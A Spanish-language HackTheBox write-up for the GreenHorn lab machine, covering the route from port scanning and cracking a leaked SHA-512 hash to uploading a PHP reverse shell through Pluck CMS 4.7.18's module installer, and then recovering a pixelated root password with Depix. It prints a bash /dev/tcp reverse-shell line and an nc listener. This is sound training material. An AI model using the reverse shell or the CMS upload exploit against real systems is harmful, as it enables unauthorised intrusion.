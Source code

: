 ```yaml
---
title: Writeup de la máquina GreenHorn
date: 2024-08-03
categories: [WRITEUPS, HackTheBox]
tags: [pluck, depix]  # TAG names should always be lowercase
---
```


![picture](/assets/images/hackthebox/greenhorn1.png)

En este ***Writeup*** se engloban las siguientes fases:
- **Reconocimiento**
- **Explotación**
- **Escalada de privilegios**

---

## **RECONOCIMIENTO**

Lo primero que realizaremos, será un escaneo con **NMAP**, para comprobar los puertos abiertos de la máquina, y conocer los servicios que corren por ellos.

```bash
nmap -p- --open -T5 10.10.11.25 -n -Pn -v
```

![picture](/assets/images/hackthebox/greenhorn2.png)

Añadimos el dominio **greenhorn.htb** junto con la *IP* al archivo **/etc/hosts**, esto se realiza para que resuelva el nombre del dominio.

![picture](/assets/images/hackthebox/greenhorn3.png)

Al no encontrar ningún puerto interesante por el que se pueda intentar algún tipo de explotación, vamos al navegador a ver de que se trata la página web tanto con el puerto **80**, como con el **3000**.

1. Puerto 80
    - Tras revisar la página web y su código, en busca de algún tipo de información, no he encontrado nada.

    ![picture](/assets/images/hackthebox/green4.png)

    - Haciendo un poco de **Fuzzing** manual, encontramos la ruta *http://greenhorn.htb/login.php*, en la que hay un panel de login de **Pluck** (gestor de contenidos CMS), con versión **4.7.18**, probando contraseñas comunes no he obtenido resultado.

    ![picture](/assets/images/hackthebox/green5.png)

2. Puerto 3000
    - En este puerto encontramos una web de **Gitea**, que es un paquete de software de código abierto para alojar el control de versiones utilizando **Git**. Navegando en esta web encontramos un repositorio llamado **GreenAdmin**.

    ![picture](/assets/images/hackthebox/green6.png)

    - Viendo el contenido de las carpetas del repositorio, nos encontramos con una contraseña cifrada en ***/data/settings***.

    ![picture](/assets/images/hackthebox/green7.png)

    ---

## **EXPLOTACIÓN**

A continuación, vamos a intentar crackear la contraseña con ***John The Ripper*** en nuestra máquina local.

- Identificamos el tipo de cifrado hash con la herramienta **hash-identifier**, y vemos que el hash es del tipo "*SHA-512*".

    ![picture](/assets/images/hackthebox/green88.png)

- Se procede a crackear la contraseña cifrada, en busca de la contraseña en texto claro.

    ```bash
    john --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-SHA512 hash.txt
    ```

    ![picture](/assets/images/hackthebox/green9.png)

Una vez encontrada la contraseña, se va a probar a entrar el el panel de **PLUCK**, y obtengo acceso.

![picture](/assets/images/hackthebox/green10.png)

Buscando en internet encontramos que la versión de **PLUCK** es vulnerable, en la parte de instalar módulos, podemos subir un archivo **.php**, el cual nos lo va a ejecutar.
La idea es subir una una **Reverse Shell** sencilla, pero hay un inconveniente, este CMS solo deja subir archivos **.zip**, con lo cual tendremos que modificar el archivo y crear un ***.zip***.

![picture](/assets/images/hackthebox/green11.png)

Nos ponemos en escucha con un **Listener** por el puerto **4444**, para que cuando subamos el archivo y nos ejecute la **Reverse Shell**, nos envíe una **Shell interactiva** a nuestra máquina local.

- Listener

    ```bash
    nc -nlvp 4444
    ```
- Reverse Shell (contenido)

    ```php
    exec("/bin/bash -c 'bash -i > /dev/tcp/Nuestra Ip/4444 0>&1'");
    ```

Y subimos el archivo **.zip**.

![picture](/assets/images/hackthebox/green12.png)

Una vez subido el archivo, nos envía la **Shell interactiva**, y estamos dentro de la máquina con el ussuario **www-data**.

![picture](/assets/images/hackthebox/green13.png)

---

## **ESCALADA DE PRIVILEGIOS**

En el directorio **/home** encontramos un usuario llamado **junior**, probamos a conectarnos con la contraseña encontrada antes, y obtenemos acceso.

![picture](/assets/images/hackthebox/green14.png)

En el directorio personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/green15.png)

En el directorio personal, también encontramos un **pdf**, el cual nos lo vamos a traer a la máquina local para poder comprobar el contenido, para ello montamos un **servidor http** con **Python3** por el puerto **1234**, y nos lo descargamos con **wget** desde la máquina local.

```bash
python3 -m http.server 1234
```

![picture](/assets/images/hackthebox/green16.png)


Vemos que es una imagen con este texto, y una contraseña *pixelizada* e *ilegible*.

![picture](/assets/images/hackthebox/green17.png){: w="600" h="300" }

Para poder leer el contenido de la contraseña, vamos a utilizar una herramienta llamada ***DEPIX***, la cual podemos encontrar en [GitHub](https://github.com/spipm/Depix).

Antes convertimos el *pdf* al formato *ppm* con **pdfimages**.

![picture](/assets/images/hackthebox/green18.png)

Seguimos los pasos como lo indican en el repositorio de *GitHub*.

![picture](/assets/images/hackthebox/green19.png)

Y nos crea un archivo con la contraseña legible.

![picture](/assets/images/hackthebox/green20.png)

Probamos a migrar al usuario **privilegiado** **root**, obtenemos acceso, y en su directorio personal tenemos la segunda **flag**.

![picture](/assets/images/hackthebox/green21.png)

![picture](/assets/images/hackthebox/green22.png)


